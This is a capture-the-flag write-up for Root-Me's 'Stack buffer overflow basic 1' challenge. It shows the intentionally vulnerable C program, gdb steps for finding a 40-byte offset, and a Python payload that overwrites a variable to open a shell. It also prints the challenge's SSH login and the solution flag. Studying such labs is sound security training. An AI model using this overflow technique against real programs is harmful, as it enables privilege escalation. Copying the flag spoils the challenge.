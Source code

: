 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch13@challenge02.root-me.org 
- Password:&emsp;app-systeme-ch13

![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)

## Write-up:
Look at the code:
```C
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**, which makes it able to override the value of **check**.<br>
- Disassembling the main function and we set break point at the **fgets function line**. Then run the program

```
gdb-peda$ b*main+55
Breakpoint 1 at 0x804857d
```

- Try inputing `aaaaaaaa` and watch that value's address.

![image](https://user-images.githubusercontent.com/48288606/146744069-794864a9-8906-4e64-a346-9bb1abda2bcb.png)

- Here, we examine the address of **aaaa** and in range 20 adjacent addressand  we see that our **check** 's value is at **0xbffffb0c**. And our input **aaaa** is at **0xbffffae4**. So we need the calculate the distance for writing the desired value to the proper position. 
```
gdb-peda$ p/d 0xbffffb0c-0xbffffae4
$1 = 40
```

### Solution:

Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Then read the `.passwd` file.

Pass: 1w4ntm0r3pr0np1s

